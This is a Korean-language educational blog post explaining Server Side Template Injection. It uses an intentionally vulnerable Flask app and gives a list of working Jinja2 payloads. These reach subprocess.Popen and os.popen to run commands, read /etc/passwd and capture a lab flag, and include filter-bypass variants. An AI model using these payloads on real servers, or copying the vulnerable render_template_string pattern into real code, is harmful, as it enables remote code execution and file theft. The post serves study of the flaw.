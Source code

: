 ```yaml
---
layout: post
title:  "SSTI(Server Side Template Injection) 취약점이란?"
tags: [SSTI]
excerpt: "SSTI(Server Side Template Injection) 취약점은 공격자가 서버측의 기본 템플릿 구문을 이용하여 악성 페이로드를 삽입 한 다음 서버 측에 실행되면서 생기는 취약점이며 웹 템플릿 엔진마다 사용되는 페이로드가 다릅니다."
---
```


SSTI(Server Side Template Injection) 취약점은 공격자가 서버측의 기본 템플릿 구문을 이용하여 악성 페이로드를 삽입 한 다음 서버 측에 실행되면서 생기는 취약점이며 웹 템플릿 엔진마다 사용되는 페이로드가 다릅니다.

* * *

## 웹 템플릿이란?

웹 템플릿 엔진은 웹 템플릿들과 웹 컨텐츠 정보를 처리하는 목적으로 설계된 소프트웨어를 뜻합니다.
 
__[웹 템플릿 엔진 종류](https://en.wikipedia.org/wiki/Comparison_of_web_template_engines)__

## SSTI 취약점을 이용한 템플릿 구분

![SSTI template payloads](/post-images/SSTI/SSTI-1/SSTI-template-payloads.png)

해당 사진으로 각 템플릿 엔진마다 쓰이는 구문을 다르게 하여 해당 서버에서 무슨 템플릿이 사용되는지 예측할 수 있습니다.

* * *

<br>

## SSTI 취약점 익스

확실한 이해를 돕기 위해 SSTI 취약점이 발생하는 소스코드를 만들었습니다.
확실한 이해를 돕기 위해 SSTI 취약점이 발생시킬 수 있는 소스코드를 만들어보면

<br>

### Python Flask 예제 소스코드

```py
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    if request.method == 'GET':

        payloads = request.args.get('payloads','')
        payloads = payloads if payloads else "None"

        result_template = f"""
        <!DOCTYPE html>
        <html>
            <head>
                <meta charset="utf-8">
                <title>Server Side Template Injection</title>
            </head>
            <body>
                <p>SSTI : {payloads}</p>
            </body>
        </html>
        """

        return render_template_string(result_template)

app.run(host='0.0.0.0', port=8080)
```

이렇게 render_template_string 메서드를 이용하여 템플릿을 사용하는것을 볼 수 있는데 해당 Flask의 경우 따로 사용자가 지정하지 않는 한 [Jinja2 템플릿 엔진으로](https://flask.palletsprojects.com/en/1.1.x/templating/) 작동이 됩니다.

<br>

### 웹 페이지 분석

* * *

어떠한 웹 사이트의 취약점을 발생시키기 위해서는 사이트에서 제공하는 기능들에 대해 분석해야 수월하므로

위의 소스코드를 실행시킨다음 ``localhost:8080`` 으로 접속할시에 

```py
requests.args.get('payloads', '')
```

해당 함수로 HTTP GET 방식으로 payloads 이름으로 데이터를 받게되는데 값이 존재하면 그대로 웹페이지에 반환하고 만약 값이 비어있다면 None를 반환해주게됩니다.

```py
payloads = request.args.get('payloads','')
payloads = payloads if payloads else "None"

result_template = f"""
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Server Side Template Injection</title>
    </head>
    <body>
        <p>SSTI : {payloads}</p>
    </body>
</html>
"""
```

<br>

* * *

<br>

### 시나리오

이제 flask로 제작된 웹 서버의 모든 기능을 파악했으니 

flag.txt(민감한 정보가 들어있는 파일)을 읽는것을 목표로 페이로드를 짜보겠습니다.

<br>

### SSTI 취약점 시도

* * *

먼저 flask에서 render_template_string함수를 이용하여 html를 출력하는 과정에
payloads 데이터를 Jinja2 문법으로 ``{% raw %}{{ 7*7 }}{% endraw %}``를 넣게 되면

![flask python ssti payloads 7*7](/post-images/SSTI/SSTI-1/python-flask-run-site-77-49.png)

SSTI 취약점이 발생하게 되면서 템플릿 구문으로 인식하여 7*7를 연산한 다음 결과를 출력하는것을 볼 수 있습니다.

이처럼 템플릿 구문을 이용하여 SSTI 취약점으로 RCE(Remote Code Execution)를 발생시킬 수 있습니다.

```py
{% raw %}{{ 7*7 }}
{{ 7*'7' }}
{{ config }}
{{ config.items() }}
{{ ''.__class__ }}
{{ ''.__class__.__mro__ }}
{{ [].__class__.__base__.__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__()[407]('cat flag',shell=True,stdout=-1).communicate() }}
{{ request.__class__ }}
{{ request["__cl"+"ass__"] }}
{{ request["__class__"]["__base__"] }}
{{ request["__class__"]["__base__"]["__subclasses__"] }}
{{ request["__class__"]["__base__"]["__subclasses__"]["__getitem__"] }}
{{ request["__class__"]["__base__"]["__subclasses__"]["__getitem__"][287]('ls', shell=True, stdout=-1).communicate()}}
{{ request|attr("__class__") }}
{{ request|attr("__cl"+"ass__") }}
{{ (request|attr("__class__")).__mro__ }}
{{ (request|attr("__class__"))["__mro__"] }}
{{ (config|attr("__class__")).__init__.__globals__['os'].popen('cat flag').read() }}
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}{% endraw %}
```

<br>

그리고 python Jinja2 템플릿의 경우 취약점을 발생시킬 수 있는 페이로드가 많이 존재하는데

몇가지 예시로 들면 위에 있는 페이로드와 같이 ``__class__``, ``__mro__``, ``__subclasses__``, ``__globals__``, ``__init__``, ``__getitem__``등을 이용하여 명령어를 실행할 수 있는것을 볼 수 있습니다.
자세한 설명은 문서를 참고하면 좋습니다.

[Python3 Built-in Types Documentation](https://docs.python.org/ko/3/library/stdtypes.html#special-attributes)

[Python3 Data module Documentation](https://docs.python.org/ko/3/reference/datamodel.html)

<br>

시나리오대로 민감한 정보가 들어있다고 하는 서버측의 flag.txt 파일을 커멘드를 입력하여 읽기 위해

<br>

```py
{% raw %}{{ ''.__class__.__mro__[1].__subclasses__()[470] }}
SSTI: <class 'subprocess.Popen'>{% endraw %}
```

![flask Popen](/post-images/SSTI/SSTI-1/python-flask-run-site-__class__.png)

커멘드 실행 결과를 볼 수 있는 [<class 'subprocess.Popen'>](https://docs.python.org/3/library/subprocess.html#popen-constructor)를 찾은 다음

```py
{% raw %}{{ ''.__class__.__mro__[1].__subclasses__()[470]('type flag.txt',shell=True,stdout=-1).communicate() }}
SSTI: (b'FLAG{k1mmiswyz_bl0g_ssti_2XpL0it__attack}'){% endraw %}
```

> Windows 환경이므로 파일을 읽기 위해 type 명령어를 사용했지만 linux의 경우 cat , more등의 다른 명령어를 사용하면 됩니다.

``type flag.txt`` 명령어를 실행시키면

SSTI 에 나오는 결과처럼 flag.txt 파일을 읽은 결과가 나오게되면서 민감한 정보가 들어있다고 하는 파일을 읽을 수 있습니다.

<br>

* * *

### 마무리

SSTI의 경우 python 언어에서만 작동되는 것이 아닌
템플릿을 사용하는 모든 언어에서 특정 단어 필터링하지 않거나 안전하지 않은 코딩일 경우 취약점이 손쉽게 발생할 수도 있다.

이 블로그를 작성하면서 다양한 SSTI 페이로드에 관해 공부하게 되고
좀 더 알아가는 계기가 된 것 같다.

<br>

+ python Special Attributes References

    + [Python3 Special Attributes](https://docs.python.org/ko/3/library/stdtypes.html#special-attributes)

<br>

+ Jinja2 Built-in Functions References

    + [Jinja2 List Of Builtin Filters](https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-builtin-filters)

<br>

+ Jinja2 SSTI Payloads References

    + [ssti-payloads](https://github.com/payloadbox/ssti-payloads)

    + [PayloadsAllTheThings Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)

    + [Flask Config](https://flask.palletsprojects.com/en/1.1.x/config/)

    + [Server Side Template Injection jinja2](https://0x1.gitlab.io/web-security/Server-Side-Template-Injection/#jinja2)
